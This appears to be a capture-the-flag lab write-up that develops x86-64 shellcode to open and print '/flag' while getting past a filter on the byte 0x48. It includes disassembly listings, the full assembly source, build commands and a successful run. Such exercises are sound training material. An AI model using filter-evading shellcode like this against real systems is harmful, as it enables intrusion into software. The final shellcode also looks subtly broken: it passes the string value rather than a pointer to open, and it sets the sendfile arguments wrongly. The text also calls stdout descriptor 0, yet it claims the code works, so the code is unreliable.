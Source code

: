 # Babyshell Level 4
This challenge was a bit like the last one, but this time the filter checks for the byte 0x48, so we need to test different registers to see which cause the opcode 0x48 and which register doesn't.

## Solving The Challenge
So we are going to start looking at every restriction on the current instruction in our program, since the challenge is pretty much the same we can just take the same shellcode we used in the precedent level and objdump it, this way we can see where our shellcode can potentially fail and which instructions we need to fix.

Also you can use the pwn.asm() functions instead of compiling the code and checking with objdump.

Those are the following restrictions on instructions i've had to deal with during the course of this challenge :

mov rdi, rsp - can't be used since it has a 0x48 in it's opcode
shl rbx, 8   - can't be used since it has a 0x48 in it's opcode

I've made a program that does shl, shr, rol, ror, sar, sal. Note how each of these instructions starts with the opcode 0x48, which we need to evade... this means we won't be able to use these instructions, also note that the instruction **sal** was translated to **shl** during compilation of the program :
```x86asm
Disassembly of section .text:

0000000000401000 <_start>:
401000:       48 c1 e3 08             shl    rbx,0x8
401004:       48 c1 e0 08             shl    rax,0x8
401008:       48 c1 e2 08             shl    rdx,0x8
40100c:       48 c1 e6 08             shl    rsi,0x8
401010:       48 c1 e7 08             shl    rdi,0x8
401014:       48 c1 c3 08             rol    rbx,0x8
401018:       48 c1 c0 08             rol    rax,0x8
40101c:       48 c1 c2 08             rol    rdx,0x8
401020:       48 c1 c6 08             rol    rsi,0x8
401024:       48 c1 c7 08             rol    rdi,0x8
401028:       48 c1 eb 08             shr    rbx,0x8
40102c:       48 c1 e8 08             shr    rax,0x8
401030:       48 c1 ea 08             shr    rdx,0x8
401034:       48 c1 ee 08             shr    rsi,0x8
401038:       48 c1 ef 08             shr    rdi,0x8
40103c:       48 c1 e3 08             shl    rbx,0x8
401040:       48 c1 e0 08             shl    rax,0x8
401044:       48 c1 e2 08             shl    rdx,0x8
401048:       48 c1 e6 08             shl    rsi,0x8
40104c:       48 c1 e7 08             shl    rdi,0x8
401050:       48 c1 cb 08             ror    rbx,0x8 
401054:       48 c1 c8 08             ror    rax,0x8
401058:       48 c1 ca 08             ror    rdx,0x8
40105c:       48 c1 ce 08             ror    rsi,0x8
401060:       48 c1 cf 08             ror    rdi,0x8
401064:       48 c1 fb 08             sar    rbx,0x8
401068:       48 c1 f8 08             sar    rax,0x8
40106c:       48 c1 fa 08             sar    rdx,0x8
401070:       48 c1 ff 08             sar    rdi,0x8
401074:       48 c1 fe 08             sar    rsi,0x8
401078:       48 c1 e3 08             shl    rbx,0x8
40107c:       48 c1 e0 08             shl    rax,0x8
401080:       48 c1 e2 08             shl    rdx,0x8
401084:       48 c1 e7 08             shl    rdi,0x8
401088:       48 c1 e6 08             shl    rsi,0x8
```

We can conclude that we can't use bit shifting (shl, shr), bit rotating (ror, rol) or bit arithmetic shifting (sal, sar)

Next i've noticed some 0x48 bytes in the opcode of the "**mov rdi, rsp**" instruction... for this reason we are going to try to move every register possible inside rdi, to achieve this i wrote the following program (note how we were able to evade the filter using the r10 register) :
```x86asm
Disassembly of section .text:

0000000000401000 <_start>:
401000:       48 c7 c0 01 00 00 00    mov    rax,0x1
401007:       48 89 c7                mov    rdi,rax
40100a:       48 89 c6                mov    rsi,rax
40100d:       48 89 f7                mov    rdi,rsi
401010:       48 89 c3                mov    rbx,rax
401013:       48 89 df                mov    rdi,rbx
401016:       48 89 c2                mov    rdx,rax
401019:       48 89 d7                mov    rdi,rdx
40101c:       49 89 c2                mov    r10,rax
40101f:       4c 89 d7                mov    rdi,r10
401022:       50                      push   rax
401023:       48 89 e7                mov    rdi,rsp
401026:       48 31 ff                xor    rdi,rdi
401029:       48 31 c0                xor    rax,rax
40102c:       48 31 f6                xor    rsi,rsi
40102f:       4d 31 d2                xor    r10,r10
401032:       48 31 db                xor    rbx,rbx
401035:       48 31 d2                xor    rdx,rdx
401038:       48 c7 c0 3c 00 00 00    mov    rax,0x3c
40103f:       48 c7 c7 2a 00 00 00    mov    rdi,0x2a
401046:       0f 05                   syscall
```

Notice that the **xor instruction** has the byte 0x48 in his opcode, for this reason we are going to need to avoid using the **xor instruction**.

So after noticing that i could bypass the filter using r10 register, i asked myself if i could use either a **shr, shl, ror, rol, sar, sal** instruction on the r10 register to bypass the filter :
```x86asm
40108c:       49 c1 e2 08             shl    r10,0x8
401090:       49 c1 ea 08             shr    r10,0x8
401094:       49 c1 e2 08             shl    r10,0x8
401098:       49 c1 fa 08             sar    r10,0x8
40109c:       49 c1 ca 08             ror    r10,0x8
4010a0:       49 c1 c2 08             rol    r10,0x8
```

As you can notice it turns out that the r10 register does indeed bypass the filter, ALL HAIL R10 !!!! :)

So we can start writing the first part of our shellcode which is opening a file descriptor on the "/flag" file, in our case we won't be able to use rbx for our bit shifting like the last challenge since we can't shift rbx without causing a 0x48 opcode, which will make us fail the challenge.

For this reason i have used r10 in my code !

Other problem i ran into, **rsi/rdx** were set to some random values when i executed my shellcode so i'm going to need to clear them out, but i can't use **xor rsi,rdi** or **xor rdx, rdx**... in this case i will do **xor r10, r10** and then move r10 into rdx and rsi.

Next problem i ran into while trying to solve this challenge is that you can't directly move 0x2 into rax without having a 0x48 opcode, for this reason i am going to put 0x2 in the lower 8 bits of r10 (**r10b**) and do a **mov al, r10b**.

With all these problem fixed our open syscall should be able to bypass the filter imposed, let's write the first partof our shellcode :
```x86asm
.global _start
_start:
.intel_syntax noprefix
    
    # Open a file descriptor on the "/flag" file
    mov r10d, 0x67616c66
    shl r10, 8
    mov r10b, 0x2f
    push r10
    pop r10
    mov rdi, r10
    xor r10, r10
    mov rsi, r10
    mov rdx, r10
    mov r10b, 0x2
    mov al, r10b
    syscall
```

Next step would be to use our sendfile instruction to read the file and send it out to the standard output file descriptor (0)...

We can pretty much rewrite the same as we did for the last challenge and it should work,... let's do that :
```x86asm
.global _start
_start:
.intel_syntax noprefix
    
    # Open a file descriptor on the "/flag" file
    mov r10d, 0x67616c66
    shl r10, 8
    mov r10b, 0x2f
    push r10
    pop r10
    mov rdi, r10
    xor r10, r10
    mov rsi, r10
    mov rdx, r10
    mov r10b, 0x2
    mov al, r10b
    syscall

    # Read a the file we just opened and send it to stdout
    push 1
    pop rdi
    push rax
    pop rdi
    push 100
    pop r10
    push 40
    pop rax
    syscall

    push 60
    pop rax
    push 42
    pop rdi
    syscall
```

Now you can just compile it, extract the bytes from the **.text** section and we should win the challenge ! Let's prove that it works :
```
$ gcc -w -nostdlib -static shellcode.s -o shellcode -masm=intel
$ objcopy --dump-section .text=solver shellcode
$ ./babyshell_level4 <solver
flag{fake_flag_for_testing}
```

Annnnnd we did bypass the filter, it was pretty easy and nice to solve, if you had problems doing it on your own remember you can write programs to test instructions and dump their opcode using the objdump -D switch. :)
